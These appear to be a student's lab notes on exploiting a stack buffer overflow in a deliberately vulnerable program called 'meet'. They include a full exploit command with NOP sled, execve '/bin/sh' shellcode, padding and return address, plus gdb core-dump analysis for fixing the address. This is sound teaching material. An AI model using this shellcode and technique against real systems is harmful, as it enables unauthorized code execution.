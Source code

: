 ```
(gdb)
process 18623 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "greeting" in current context.
Error in re-setting breakpoint 1: No symbol "greeting" in current context.
Error in re-setting breakpoint 1: No symbol "greeting" in current context.
```
 - testing outside of gdb

```
lol@local:/root/Desktop/cs642$ ./meet luna $(python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"A"*180+"\x08\xd3\xff\xff"')
Hi  ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                                             ̀1▒@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒▒▒
Illegal instruction
```

 - we can analyze the crash with core file -> `ulimit -c unlimited`
 - when we run previous exploit, we can see core file like `Illegal instruction (core dumped)`
 - examine the crash in gdb using core file `gdb ./meet core`

```
[New LWP 19977]
Core was generated by `./meet luna ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒'.
Program terminated with signal SIGILL, Illegal instruction.
#0  0xffffd30a in ?? ()
(gdb) x/64x $eip
0xffffd30a:     0xd310ffff      0x9090ffff      0x90909090      0x90909090
0xffffd31a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd32a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd33a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd34a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd35a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd36a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd37a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd38a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd39a:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd3aa:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd3ba:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd3ca:     0x90909090      0x90909090      0x90909090      0xc0319090
0xffffd3da:     0x2f2f6850      0x2f686873      0x896e6962      0x89c189e3
0xffffd3ea:     0xcd0bb0c2      0x40c03180      0x414180cd      0x41414141
0xffffd3fa:     0x41414141      0x41414141      0x41414141      0x41414141
```
 - according to above result, our pointer is not correct for gdb outside
 - then i changed to `0xffffd38a` as new pointer
 